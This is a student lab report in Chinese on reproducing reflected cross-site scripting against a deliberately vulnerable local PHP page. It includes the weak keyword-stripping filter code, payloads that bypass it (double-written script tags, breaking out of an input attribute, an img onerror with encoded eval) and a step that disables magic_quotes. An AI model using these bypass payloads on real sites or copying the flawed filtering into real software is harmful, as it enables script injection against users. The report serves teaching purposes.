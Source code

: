 # <center>《软件安全》实验报告</center>

<center>姓名：陆皓喆 &nbsp;&nbsp;&nbsp;&nbsp; &nbsp;学号：2211044   &nbsp; &nbsp;&nbsp;&nbsp;&nbsp;班级：信息安全</center>



# 实验名称：

​	**跨站脚本攻击**



# 实验要求：

​	复现课本第十一章实验三，通过$img$和$script$两类方式实现跨站脚本攻击，撰写实验报告。有能力者可以自己撰写更安全的过滤程序。



# 实验过程：

## 1 Script方式

### 1.1 建立Dreamweaver文件

​	首先我们输入源代码：

```php+HTML
<!DOCTYPE html> 
<head> 
<meta http-equiv="content-type" content="text/html;charset=utf-8"> <script> 
window.alert = function() 
{ 
	confirm("Congratulations~");
}

</script>
</head> 
<body> 
<h1 align=center>--Welcome To The Simple XSS Test--</h1> 
<?php 
ini_set("display_errors", 0); 
$str =strtolower( $_GET["keyword"]); 
$str2=str_replace("script","",$str); 
$str3=str_replace("on","",$str2); 
$str4=str_replace("src","",$str3); 
echo "<h2 align=center>Hello ".htmlspecialchars($str).".</h2>".'<center> 
<form action=xss_test.php method=GET> 
<input type=submit name=submit value=Submit /> 
<input name=keyword  value="'.$str4.'"> 
</form> 
</center>'; 
?> 
</body> 
</html> 
```

​	我们将其输入到软件中，显示如下：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501092954690.png" alt="image-20240501092954690" style="zoom: 33%;" />

​	我们打开网页，输入地址：http://127.0.0.1/xss_test.php ，看到如下界面，证明代码运行无误，可以开始测试。

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501093615933.png" alt="image-20240501093615933" style="zoom: 25%;" />



### 1.2 黑盒测试

​	首先从黑盒测试的角度来进行实验，访问URL：http://127.0.0.1/xss_test.php，页面效果如图所示：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501093713071.png" alt="image-20240501093713071" style="zoom: 50%;" />

​	在界面中，我们可以看到一个 `Submit` 按钮和输入框，并且还有标题提示 `XSS`。于是输入上面学过最简单的 `XSS` 脚本：`<script>alert('xss')</script>`来进行测试。我们点击 `Submit` 按钮以后，效果如下：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501093853333.png" alt="image-20240501093853333" style="zoom:50%;" />

​	我们发现，发现`Hello`后面出现了我们输入的内容，并且输入框中的回显过滤了`script`关键字，这个时候考虑后台只是最简单的一次过滤。

​	我们再利用双写关键字来重新构造脚本：`<scrscriptipt>alert('xss')</scscriptript>`，并再次进行测试，效果如下：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501094333448.png" alt="image-20240501094333448" style="zoom:50%;" />

​	至此，虽然输入框中显示出来的代码确为我们想要运行的攻击脚本，但是这句代码并没有被执行（如果成功执行，会弹窗输出“`congratulations`”）。所以我们接着寻找问题。我们跳转到该`php`文件的源码，就可以发现：第5行重写的`alert`函数。如果可以成功执行 `alert` 函数的话，页面将会跳出一个确认框，显示 `Congratulations~`。这应该是我们 `XSS` 成功攻击的的标志。但现在我们并没有看到该弹窗，说明代码确实没有被执行。

​	我们继续查看源代码，我们发现相比于最先的`php`代码，第十六行发生了改变。

```php+HTML
<input name=keyword value="<script>alert('xss')</script>">
```

​	分析这行代码知道，虽然我们成功的插入了`<script></script>`标签组,但是我们并没有跳出 `input` 的标签，使得我们的脚本仅仅可以回显而不能利用。这个时候的思路就是想办法将前面的`<input>`标签闭合，于是构造如下脚本：

```php+HTML
"><scrscriptipt>alert('XSS')</scscriptript><!--
```

​	分析一下这行代码：`">` 用来闭合前面的`<input>`标签。而 `<!--` 其实是为了美观，用来注释掉后面不需要的 `">` ,否则页面就会在输入框后面回显 `">`。我们输入该代码，进行测试，得到以下结果：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501095358591.png" alt="image-20240501095358591" style="zoom:50%;" />

​	说明我们的攻击还是没有成功。这是因为 `php` 服务器为了避免一些用户特殊构造的攻击，将双引号等符号转义，于是修改 php-`apache2handler.ini`，将“`magic_quotes_gpc = On`”设置为“`magic_quotes_gpc = Off`”。

​	我们发现经过调试，我们成功的完成了这次黑盒测试，输出我们想要的结果“Congratulations~”！

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501103157915.png" alt="image-20240501103157915" style="zoom:50%;" />



### 1.3 白盒测试

​	我们前往`xss_test.php`文件中查看页面的核心逻辑。

```php
<?php 
  ini_set( "display_errors", 0); 
  $str=strtolower( $_GET[ "keyword"]); 
  $str2=str_replace( "script", "",$str); 
  $str3=str_replace( "on", "",$str2); 
  $str4=str_replace( "src", "",$str3); 
  echo "<h2 align=center>Hello ".htmlspecialchars($str). ".</h2>". '<center>
  <form action=xss_test.php method=GET>
  <input type=submit name=submit value=Submit />
  <input name=keyword value="'.$str4. '">
  </form>
  </center>'; 
 ?>
```

​	分析上述代码可知，这些代码的逻辑与我们第2步中进行的黑盒测试所总结出的逻辑基本相符。但是也有黑盒测试中没测试到的地方。比如，`Hello` 后面显示的值是经过小写转换的。输入框中回显值的过滤方法是将 `script`、`on`、`src` 等关键字都替换成了空。所以我们如果修改`php`代码，将这些过滤全部取消的话，我们也可以实施攻击。



## 2 img方式

### 2.1 用\<img>标签构造脚本

​	我们构造的脚本如下：

```php+HTML
<img src=ops! onerror="alert('XSS')">
```

​	`<img>`标签是用来定义 `HTML` 中的图像，`src` 一般是图像的来源。而 `onerror` 事件会在文档或图像加载过程中发生错误时被触发。所以上面这个攻击脚本的逻辑是，当 `img` 加载一个错误的图像来源 `ops!`时，会触发 `onerror` 事件，从而执行 `alert` 函数。

​	我们在原来的代码中做一些修改：

```php+HTML
<!DOCTYPE html>
<head>
 <meta http-equiv="content-type" content="text/html;charset=utf-8">
 <script>
 window.alert = function() 
 {
      confirm("Congratulations~");
 }
 </script>
</head>
<body>
  <h1 align=center>--Welcome To The Simple XSS Test--</h1>
  <?php 
  ini_set( "display_errors", 0); 
  $str=strtolower($_GET["keyword"]); 
  $str2=str_replace("script", "", $str); 
  $str3=str_replace("on", "", $str2); 
  $str4=str_replace("src", "", $str3); 
  echo "<h2 align=center>Hello ".htmlspecialchars($str).".</h2><center>
  <form action=xss_test.php method=GET>
  <input type=submit name=submit value=Submit />
  <input name=keyword value='".htmlspecialchars($str4)."'>
  </form>
  </center>"; 
 ?>
 <img src="ops!" onerror="var payload=String.fromCharCode(99,111,110,102,105,114,109,40,39,88,83,83,39,41);eval(payload)">
</body>
</html>
```

​	我们来分析一下这段代码。

​	我在此处添加了一个`img`标签，并设置其`src`属性为一个无效的`URL ops!`。然后，我使用`onerror`事件来执行`JavaScript`代码。为了绕过过滤和替换操作，我将`JavaScript`代码以字符编码的方式嵌入到`onerror`属性中，并通过`eval`函数执行解码后的代码。在修改的源码中，`String.fromCharCode()` 被用于构建一个字符串变量 `payload`，其中的参数是一系列的 `Unicode` 值。这些 `Unicode` 值代表的是解码后的 `JavaScript` 代码，用于实现特定的功能，例如执行弹窗操作。在 `eval(payload)` 中，`eval()` 函数用于解析并执行该字符串中的 `JavaScript` 代码。这段代码通过一系列的 `Unicode` 值构建了一个字符串 '`confirm('XSS')`'，它表示调用 `confirm` 函数来显示一个确认对话框，内容为 '`XSS`'。通过这句核心代码，我们就能实现以`img`的方式完成一次跨站脚本攻击。



### 2.2 运行结果

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab11\Lab11_2211044_陆皓喆.assets\image-20240501104232294.png" alt="image-20240501104232294" style="zoom: 67%;" />

​	可以看到，我们成功的输出了一个弹窗“`XSS`”，说明我们的攻击成功！



# 心得体会：

​	通过本次实验，我粗略地学习了两种跨站脚本攻击的方法，一个是通过`Script`方式去进行攻击，一个是通过`img`方式去进行攻击，两个方式都是`CTF`的`web`中常规的部分，我在调试的过程中遇到了很多问题，比如说使用`win11`浏览器，`php`会过滤大部分敏感的转义字符，我都努力去解决这些问题。我了解了`script`中过滤关键字的原理，即替换成无效的内容；还学会了如果构造一个可以实现`img`攻击的`Payload`。